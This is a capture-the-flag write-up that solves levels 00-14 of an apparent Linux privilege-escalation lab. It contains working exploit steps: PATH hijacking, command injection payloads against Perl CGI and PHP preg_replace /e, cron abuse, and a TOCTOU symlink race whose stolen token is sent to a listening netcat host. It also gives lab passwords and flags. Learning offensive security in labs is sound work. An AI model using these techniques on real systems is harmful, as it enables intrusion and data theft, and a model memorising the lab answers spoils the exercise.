# VM Setup

- **Type :** Linux
- **Version :** Oracle Linux 9.x (64-bit)

**Network :**
NAT
Portforwarding:
- **Protocol :** TCP
- **Host IP :** You can get this from running ip addr show in the terminal and put the inet ip thats located in the eno2 interface.
- **Host port :** 4242
- **Guest port :** 4242

# Level 00

At the beginning, we start by running a few commands :
- ls -la
- id (to get your UID, your GID, which groups you belong to)
- pwd

Since we had no files in the level00 folder, we read the subject again and noticed that we could maybe check all the folders that were created by the flag00 user.

To proceed we used this command : 

find / -user flag00 2>/dev/null (it search for files from the root that has the user flag00 as their owner and it redirects any errors to /dev/null)

This is the result : 

/usr/sbin/john
/rofs/usr/sbin/john

We then only check whats inside /usr/sbin/john as the rofs folder is for read only files system, it will contain the same content.

It contains "cdiiddwpgswtgt" which seems to be something we need to decode, it doesnt look like a hash so we went on https://www.dcode.fr/.
Via trial and error we ended up finding the correct encoding method used which is known as cesar.
The result is "nottoohardhere".

# Level 01

At the beginning, we start by running a few commands :
- ls -la
- id (to get your UID, your GID, which groups you belong to)
- pwd

Since we had no files in the level01 folder, we read the subject again and noticed that we could maybe check all the folders that were created by the flag01 user.
No results from this, so we had to try something else, instead of looking for folders made by flag01, we tried to grep the content of every file and look for the specific pattern "flag01"

The command we used was : 

grep -RsF "flag01" "FILE_PATH"

We tried the command on multiple folders since running this in the root would cause an issue if there are unlimited files such as the procs files in /proc

We got our result in the /etc folder :

/etc/group:flag:x:1001:flag00,flag01,flag02,flag03,flag04,flag05,flag06,flag07,flag08,flag09,flag10,flag11,flag12,flag13,flag14
/etc/group:flag01:x:3001:
/etc/passwd:flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

We noticed that it was a hashed password, the first 2 characters is the salt and the rest is the hash.
We then installed John The Ripper to try and crack the password (You can download it here : https://github.com/openwall/john?tab=readme-ov-file).

We then got the result which is : "abcdefg" which allowed us to get to level02.

# Level 2

We ran ls -la and noticed that this time we have a file to analyse : level02.pcap.

After some research we found out that the extension stands for packet capture, and we can use wireshark to analyse it, since we cannot use a vm file outside the vm, we had to copy it outside the vm with this command : 

**scp -P 4242 level02@10.11.108.2:/home/user/level02/level02.pcap /home/dnahon/Documents**

**We then opened the file in wireshark, we right clicked on a packet -> Follow -> TCP Stream.**

**We picked show data as : Hex dump**, and here is the result : 



As you can see, we can see a password being written, but there are some dots inbetween some letters.
If we refer to their hexa, we can see its 7F, which is the DEL key (man ascii).

We then show the data in ASCII and we transform this "ft_wandr...NDRel.L0L" to "ft_waNDReL0L", which is the flag for level 3.

# Level 3

We ran ls -la and noticed a binary and when we try to execute it, it says "Exploit me"

We ran it through gdb and used the following command : layout asm which displays the binary's assembly. 
The first thing we can notice, is that there are multiple function calls, 4 of them are related to gid/uid and the last one "system" execute the string passed as an argument in a shell (with the privileges of the UID set prior with the previous function call).

As shown here :



We then check whats the string being ran through the function call "system" which is "/usr/bin/env echo Exploit me". But as we can see the echo command is not using an absolute path to be executed, which means we can change the PATH environment variable to /tmp, and create our own fake echo script that will run the getflag command.



Here is our script that we create as echo in /tmp.

```sh
#!/bin/sh
result=$(/bin/getflag)
echo "$result"
```

Which then gives us the password for level 4.

# Level 4

We ran ls -la and noticed a .pl file which stands for pearl files.

After doing cat level04.pl, we can see a script :

```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
This seems to be running on localhost on the port 4747, so we tried to do a curl request to see what happens



It echoed a which means anything after ?x= gets echoed but if you put `` and a command inbetween, it can run a bash command, which means if you run this : 



We get the password for level 5, this is known as a command injection.

# Level 5

As soon as we logged into the level05, we got this message : "You have a new mail.".


After some research we noticed that the mail is stored in /var/mail/user, so we then read the mail and noticed it was a cronjob.



We then notice that it runs a binary so we read it aswell and we notice that it runs any script that is located in a specific folder with higher permissions.



From this we understand that each 30 seconds the crontab runs this binary which then runs any binary located in /opt/openarenaserver then deletes them. From that we decided to make a quick script :

```sh
#!/bin/sh
getflag > /tmp/flag05
```

And 30 seconds later we got the flag : 



# Level 6

We first did ls -la and noticed that we have a level06 binary and level06.php owned by the user flag06.

We then ran strings level06 and we got this : 



So this binary executes the level06.php, we then checked the content of level06.php : 



The binary reads the content of the file passed as the second argument and will execute preg_replace on it with the /e flag, which will execute any content after"[x "and before "]".
"/(\\[x (.\*)\\])/e" anything between the first parenthesis will be captured in group 1 which is "\1" and anything inside the second parenthesis will be "\2", so if we have "[x \${`getflag`}]" the first group would be [x \${`getflag`}] and the second group would be ${`getflag`}, (.\*) in regex means that it will capture any characters for as many characters as there is.

By making the binary un this "[x \${`getflag`}]", it will give us an error for the variable that has the result of the command getflag as its name, which then gives us this :



# Level 7

As usual, we checked the files in the folder of the current level, and we had a binary which we ran the strings command on and saw this :



We can see it run many functions related to egid and euid but also getenv, then we noticed that it says LOGNAME and it echo a string. After running the binary it echoed level07 which is exactly the value of the LOGNAME environment variable, after trying to change it and running the program again it confirmed our theory : 



So we thought we could do a command injection, by inserting a semicolon and using the getflag command right after :



# Level 8

We started by checking what we start with in the level folder :



We can see that the strstr function is being used, so we tried to run ltrace to see which functions were used and how they were used.



As soon as I put anything containing the word token in the file to read, it will output an error, to bypass this, we thought we could use a symbolic link.



# Level 9

Firstly, we check what we are given, we were given a token file and a level09 binary.

The token file contains a crypted token and the binary adds its own index to its ascii, so in this example aaa becomes abc :



So we thought we could simply decrypt it by removing its own index to its ascii which would give us the flag, here is what we used to decrypt it : 

```c
#include <stdio.h>

int	main(int ac, char **av)
{
	if (ac == 2)
	{
		int i = -1;
        while (av[1][++i])
            printf("%c", av[1][i] - i);
        printf("\n");
    }
}
```

After transfering it to the vm by using the scp command and compiling it, we could test it with the token file content :



# Level 10

We started with checking what files we have in the current level folder, we have a token file which we dont have permission to open and a binary that we ran the strings command on.



We can see the access function but we dont know how it works yet, so we ran man access.



So it says that we need to exploit the short time interval between access and open to be able to send the file content.

To try and bypass this interval, we made a script that will create a file, delete the file, create a symbolic link with the token file, and delete the file again continuously. And have another script that continously try to send that file to our local ip which you can find in ip addr show.

By doing that, at the moment access check if we have permission to read the file, if it happens during the time that the file is the one made by touch since we have permissions, it will continue to run the binary but at the same time it checked for the permission, the file was replaced by the token file via a symbolic link.

```sh
#!/bin/bash

while (true); do
    ./level10 /tmp/file 192.168.122.1
done
```

and

```sh
#!/bin/bash

while (true); do
    touch /tmp/file
    rm -f /tmp/file
    ln -s /home/user/level10/token /tmp/file
    rm -f /tmp/file
done
```

We then need to run **nc -lk 6969**, **-l** will allow netcat to await for connections and **-k** will allow netcat to continously await for connections even when a connection has already been made.

After waiting a few seconds, we can stop the 2 scripts and check for results in nc :


# Level 11

We checked the files we were given, and noticed we had a .lua file that seems to be creating a local server, and it expects the client to input a password, which then gets sent to the hash function.

It seems like we may need to do a command injection, so we then use nc to listen to the server.



# Level 12

We looked at the files in our current level directory, we saw that there was a file named "level12.pl" and we checked its content.

We noticed that it was quite similar to the level04, we will need to execute a curl request again with a specefic parameter to inject a command inside the t function.



We can see that the argument 0 that we provide is being capitalized and it ignores any characters after the first space then used inside a command execution.

Since we cannot try to run getflag directly because it will be turned into GETFLAG, we need to find a way to run getflag without the capitalization being an issue.

We know for a fact that special characters such as "/" or "*" will remain unchanged, we exploit this by creating a script that will run getflag and redirect the result in another file, and we name that script with capital letters only.



# Level 13

This time we have a binary, that seems to be comparing our UID to another number.



To understand more about what our UID is being compared to, we run the binary in gdb and we can see that getuid function is being called and then the result of getuid which is stored in eax gets compared to 0x1092 which is 4242.


With gdb you can inspect registries and also modify their current values, so we set a breakpoint at the line where eax gets compared to 4242, and we run set $eax = 4242



Seems to have worked, the token showed up.

# Level 14

As we arrived on level14, we noticed that we were not provided with any files, and using find we saw that there was no file that was created by the user flag14, so we thought we should potentially reverse the getflag binary we have been using the entire time.



We can see that a few major functions are being used here, such as getenv, getuid, ptrace.



Since ptrace will prevent us from trying to run gdb on it, we will need to bypass that protection first by modifying eax again right after ptrace has been called.

We run **b ptrace** in gdb, then **run** then **n** and then we set eax to 1 so we dont get "You should not reverse this".

After bypassing ptrace, we need to find where getuid is being called so we can replace its result by the uid of the user flag14.

To proceed we do : **b getuid** and we then continue and add another breakpoint to the line that compares our uid.

